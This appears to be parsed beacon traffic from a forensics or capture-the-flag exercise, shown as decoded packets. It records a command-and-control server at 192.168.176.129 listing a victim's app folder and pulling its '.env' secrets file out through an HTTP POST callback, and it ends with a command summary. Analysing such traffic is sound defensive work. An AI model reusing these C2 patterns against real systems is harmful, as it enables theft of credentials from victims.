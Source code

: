 ```
----------------------------------------------------------------------------------------------------
C:\Users\zoznoor23\Desktop\Leucothea_app.v1\*
D       0       11/13/2024 15:50:54     .
D       0       11/13/2024 15:50:54     ..
F       324     11/13/2024 15:56:23     .env
F       1840    11/13/2024 15:51:49     app.json
F       9200    11/13/2024 15:51:35     app.py
D       0       11/13/2024 15:50:43     assets
F       1242    11/13/2024 15:51:08     build.sh
F       322     11/13/2024 15:51:22     Dockerfile
F       134     11/13/2024 15:52:00     requirements.txt
D       0       11/13/2024 15:49:25     Templates

----------------------------------------------------------------------------------------------------
Extra packet data: b'\rC\x01'

Packet number: 220
HTTP response (for request 216 )
Length raw data: 48
Timestamp: 1731545719 20241114-005519
Data size: 12
Command: 11 COMMAND_DOWNLOAD
 Arguments length: 4
 b'.env'
 MD5: f579cccc964135c7d644c7b2d3b0d3ec

Packet number: 220
HTTP request
http://192.168.176.129/zOMGAPT?tmp=AOBCGFMECPGCHBFAHMHOPEIFACMALIPGFEKNMJHGJEAAHGDJGGKKCEKGKNDCBFJLOMOLDEGACCGJOHCIBLMADKPIBNCBPGILCEMAJNEHOIHGEKMNHDKGIMEDHICKFFOPGDMMOJKAKCBOEHBHPPGJAKNGJIBCHKOIKGFJHHBKBAANIIDHFCNHMGPJCLFICDAHHMPNBGGNGLGAIEOEPLIONFEOJLDPDLBJJAFAKCGCOJGMFOLPBABIPPFCNKAAEHBE
Length raw data: 48
HMAC signature invalid

Packet number: 227
HTTP request POST
http://192.168.176.129/BUYTHEAPTDETECTORNOWNzA0MDU4OTI0
Length raw data: 524
Counter: 6
Callback: 2 CALLBACK_FILE
 parameter1: 0
 length: 324
 filenameDownload: C:\Users\zoznoor23\Desktop\Leucothea_app.v1\.env

Counter: 7
Callback: 8 CALLBACK_FILE_WRITE
 Length: 324
 MD5: f1e503e1eaee73f61c4d09a3926fa7cd

Counter: 8
Callback: 9 CALLBACK_FILE_CLOSE
b'\x00\x00\x00\x00'

Commands summary:
 4 COMMAND_SLEEP: 1
 5 COMMAND_CD: 1
 11 COMMAND_DOWNLOAD: 1
 27 COMMAND_GETUID: 1
 39 COMMAND_PWD: 1
 53 COMMAND_LS: 2

```